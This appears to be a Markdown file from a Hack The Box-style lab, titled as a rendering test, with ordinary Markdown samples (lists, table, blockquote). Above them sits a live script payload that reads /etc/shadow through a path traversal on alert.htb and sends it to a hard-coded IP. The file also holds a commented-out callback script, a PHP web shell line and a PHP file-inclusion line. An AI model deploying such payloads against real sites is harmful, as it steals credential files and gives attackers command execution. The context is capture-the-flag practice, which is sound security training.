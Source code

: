 # Test Markdown Rendering Errors

<!-- <script>

    fetch("http://10.10.14.41:8888")
    .then(data=>{
        console.log("hello :)");
    })
</script> -->

<script>
fetch("http://alert.htb/messages.php?file=../../../../etc/shadow")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.41:8888/?file_content=" + encodeURIComponent(data));
  });
</script>


<?php //doesn't work
echo("This is a test");
?>

<?php //doesn't work
system($_GET['cmd']);
?>

<?php //doesn't work
include($_GET['file']);
?>

- This is a **bold and _italic_ text.
- List item 1
- List item 2 

## Second section

1. Item 1
2. Item 2

~~Strikethrough text~~

[Link to Google](www.google.com)

![Image](image.jpg)

| Header 1 | Header 2 |
|----------|----------|
| Cell 1   | Cell 2   |

### Third section

> Blockquote 

\*Escaped\*

